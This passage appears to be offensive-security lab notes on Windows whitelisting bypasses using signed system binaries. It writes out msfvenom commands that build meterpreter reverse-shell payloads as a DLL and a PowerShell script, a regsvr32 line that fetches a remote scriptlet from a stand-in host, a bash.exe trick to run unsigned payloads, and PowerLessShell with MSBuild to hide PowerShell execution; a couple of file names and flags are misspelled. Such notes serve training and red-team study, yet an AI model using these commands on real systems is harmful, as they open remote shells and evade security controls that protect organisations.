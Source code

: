 
First we need to create a malicious DLL, we can use msfvenom 
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 -o LOL.dll
```
Now, once we have the DLL on the target machine, we can execute it using
```powershell
regsvr32.exe LOL.dll

regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads/LOL.dll
```
With the second option we can instruct regsvr32 to:
- `/s` run in silent mode (no messages)
- `/n` not call the DLL register server
- `/i` to use another server since we used `/n`
- `/u` to run with unregister method

## Bourne Again Shell
In 2016, Microsoft added support for the Linux environment on Windows 10,11 and server 2019. This feature is known as **Windows Subsystem for Linux** (WSL), and it exists in two WSL versions: WSL1 and WSL2. WSL is a Hyper-V virtualized linux distribution that runs on the OS. This feature is an addon that a user can install and interact with a Linux distribution. As part of WSL, `bash.exe` is a Microsoft tool for interacting with the Linux environment.

---

We can use this to execute payloads and bypass whitelisting since it is a Microsoft signed binary. By executing
```powershell
bash.exe -c "path\to\payload"
```
We can execute any unsigned payload. Note that we need to enable and install the WSL if not already installed.

# Powerless
Powershell is one of the most used languages for malicious activities, therefore, some organizations have started to  monitor or block `powershell.exe` from being executed. As a result [PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell/tree/master) was born, it is a python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. It relies on abusing the MSBuild, a platform for building Windows Applications, to execute remote code.

We can use it as follows, first we can generate a simple `ps1` payload with msfvenom
```sh
msfvenom -p windows/meterpreter/reverse-winhttps lhost=tun0 lport=4443 -f psh-relfection -o liv0ff.ps1
```
Then we can convert the payload to be compatible with the MSBuild tool. 
```sh
python2 PowerLessShell.py -type powershell -source liv-off.ps1 -output liv0ff.csproj
```
Then we get the file to the target machine, and once there we use `MSBuild.exe` to build our project and execute it, running our payload and getting us a connection